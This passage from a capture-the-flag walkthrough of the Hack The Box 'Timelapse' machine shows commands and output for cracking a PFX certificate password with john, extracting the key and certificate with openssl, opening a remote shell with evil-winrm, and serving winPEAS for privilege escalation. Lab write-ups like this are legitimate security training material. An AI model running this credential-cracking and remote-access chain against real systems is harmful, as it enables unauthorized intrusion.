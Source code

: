 #### Break password hash for `legacyy_dev_auth.pfx` file
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ john legacyy_dev_auth.pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:02:07 DONE (2025-06-03 18:56) 0.007817g/s 25263p/s 25263c/s 25263C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

#### Extract private key and certificate from `legacyy_dev_auth.pfx` file using discovered password
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -passin pass:thuglegacy -out key.pem && \
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -passin pass:thuglegacy -out cert.pem
```

#### Gain initial foothold with discovered private key using `evil-winrm`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ evil-winrm -S -c cert.pem -k key.pem -i timelapse.htb 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

### Escalate to `svc_deploy` using credentials discovered in PowerShell history file

#### Host `winPEASx64.exe`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ python3 -m http.server --directory ~/Tools/PEAS 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
